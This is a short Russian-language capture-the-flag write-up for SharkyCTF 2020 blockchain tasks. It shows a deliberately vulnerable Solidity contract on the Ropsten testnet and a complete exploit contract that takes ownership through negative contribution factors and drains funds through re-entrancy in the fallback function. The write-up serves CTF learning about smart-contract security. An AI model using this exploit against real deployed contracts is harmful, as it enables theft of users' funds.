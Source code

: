 # Sharkyctf2020

Sharkyctf 2020 — был целый набор заданий DeFi на Solidity и были райтапы на них в разделе blockchain.

Фишечки:

* На etherscan видны все изменения параметров контракта (заменяем на свой контракт)

```
https://ropsten.etherscan.io/tx/0x112db25adf343310ab34a8210532c513cd5c6e309b368c19f577c590a0149d23#statechange
```

Пример эксплоита на Solidity:

Пусть есть контракт (который будем атаковать)

```
pragma solidity = 0.4.25;
 
contract Multipass {
    address public owner;
    uint256 public money;
     
    mapping(address => int256) public contributions;
     
    bool public withdrawn;
     
    constructor() public payable {
        contributions[msg.sender] = int256(msg.value * 900000000000000000000);
        owner = msg.sender;
        money = msg.value;
        withdrawn = false;
    }
     
    function gift() public payable {
        require(contributions[msg.sender] == 0 && msg.value == 0.00005 ether);
        contributions[msg.sender] = int256(msg.value) * 10;
        money += msg.value;
    }
   
    function takeSomeMoney() public {
        require(msg.sender == owner && withdrawn == false);
        uint256 someMoney = money/20;
        if(msg.sender.call.value(someMoney)()){
            money -= someMoney;
        }
        withdrawn = true;
    }
     
    function contribute(int256 _factor) public {
        require(contributions[msg.sender] != 0 && _factor < 10);
        contributions[msg.sender] *= _factor;
    }
     
    function claimContract() public {
        require(contributions[msg.sender] > contributions[owner]);
        owner = msg.sender;
    }
}
```

И этот контракт расположен по адресу: 0x693282455c051D6CB3B138fD78474c8D9F7c8AFa

Тогда эксплоит будет выглядеть следующим образом (Обрати внимание, что чужой контракт инициализируется через адрес):

```
pragma solidity = 0.4.25;

import "./multipass.sol";

contract exp{
    Multipass x;
    constructor(){
        x = Multipass(0x693282455c051D6CB3B138fD78474c8D9F7c8AFa);
    }
     
    function prepare() public payable{
        x.gift.value(0.00005 ether)();
        // you need invoke this function twice
        x.contribute(-100000000000);
        x.contribute(-100000000000);
        // x.contribute(2);
    }
     
    function Claim(){
        x.claimContract();
    }
     
    function reEntry(){
        x.takeSomeMoney();
    }
     
    function() public payable{
        x.takeSomeMoney();
    }
     
     
}
```
